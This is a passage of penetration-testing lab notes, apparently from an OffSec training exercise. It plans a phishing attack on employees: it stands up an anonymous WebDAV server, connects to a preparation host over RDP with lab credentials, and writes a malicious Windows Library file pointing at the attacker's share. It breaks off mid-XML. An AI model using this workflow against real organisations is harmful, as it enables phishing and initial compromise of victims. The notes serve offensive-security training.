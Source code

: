 	- Only default shares found
	- No actionable perms found


As there's currently no way to abuse anything, we can try to phish all the employees.

#### Phishing

As we've no idea about their internal structure or installed apps, we'll avoid crafting a malicious Microsoft Office doc.
Instead, we'll utilize [Windows Library files](11.3%20-%20Win%20Library%20Files.md) in combo w/ shortcut files

- Setup WebDAV share
```bash
pip3 install wsgidav

mkdir ~/beyond/webdav
~/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root ~/beyond/webdav/
	Running without configuration file.
	17:26:14.107 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
	17:26:14.108 - INFO    : WsgiDAV/4.3.3 Python/3.11.9 Linux-6.8.11-amd64-x86_64-with-glibc2.38
	17:26:14.108 - INFO    : Lock manager:      LockManager(LockStorageDict)
	17:26:14.108 - INFO    : Property manager:  None
	17:26:14.108 - INFO    : Domain controller: SimpleDomainController()
	17:26:14.108 - INFO    : Registered DAV providers by route:
	17:26:14.108 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/home/kali/.local/lib/python3.11/site-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
	17:26:14.108 - INFO    :   - '/': FilesystemProvider for path '/home/kali/exercises/beyond/webdav' (Read-Write) (anonymous)
	17:26:14.108 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
	17:26:14.108 - WARNING : Share '/' will allow anonymous write access.
	17:26:14.108 - WARNING : Share '/:dir_browser' will allow anonymous write access.
	17:26:14.148 - INFO    : Running WsgiDAV/4.3.3 Cheroot/10.0.0 Python/3.11.9
	17:26:14.148 - INFO    : Serving on http://0.0.0.0:80 ...
```

- Connect to WINPREP via RDP as offsec with a password of lab in order to prepare the Windows Library and shortcut files
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:offsec /p:lab /v:192.168.174.250 /drive:kali,/home/kali/exercises/beyond/webdav
```

- Open Visual Studio Code
- Create a New Text File
- Save As > **config.Library-ms** on the desktop
- Use code from previous Client Side Attack and update to the new IP
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.170</url>
</simpleLocation>
</searchConnectorDescription>
```
